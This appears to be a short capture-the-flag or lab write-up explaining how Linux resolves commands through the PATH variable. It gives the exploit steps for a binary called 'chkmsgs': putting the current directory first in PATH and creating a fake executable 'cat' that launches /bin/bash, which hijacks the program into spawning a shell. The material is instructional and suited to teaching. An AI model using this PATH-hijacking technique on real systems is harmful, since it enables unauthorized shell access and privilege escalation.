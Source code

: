 ## chkmsgs.md

This one is tricky, and requires knowledge about how Linux and similar operating systems handle running binaries. When you run a command like `ls` for example, how does Linux know to run the `ls` executable that you want? Remember, these commands are all programs on the machine stored somewhere, and the operating system has to find them somehow.

**If you were looking for a hint stop reading now**

In the Linux operating system, there are global variables that hold information. These variables are called environment variables, and one in particular holds information about where executables are stored on a system. This variable is called the `PATH`. In your terminal, you can print the `PATH` variable by running `echo $PATH`.

Prepend the path with the current directory  
`export PATH=.:$PATH`  
Create a file named `cat` with the string `/bin/bash` inside  
`echo "/bin/bash" > cat`  
Make the cat file executable  
`chmod u+x cat`  
Exploit  
`./chkmsgs`  
You can fix your PATH variable by restarting your terminal or running `export` and setting `PATH` back to the original string

**Why does this work?**  
Anytime you run a command, the operating system looks at the `PATH` variable and searches every directory listed in it for a program of the same name as the command you typed. Once it finds one that matches, it runs it immediately. In other words, it runs the _first_ one it finds. What you've done is created a different `cat` program, and made sure the OS finds yours first by prepending the current directory to the `PATH` variable.
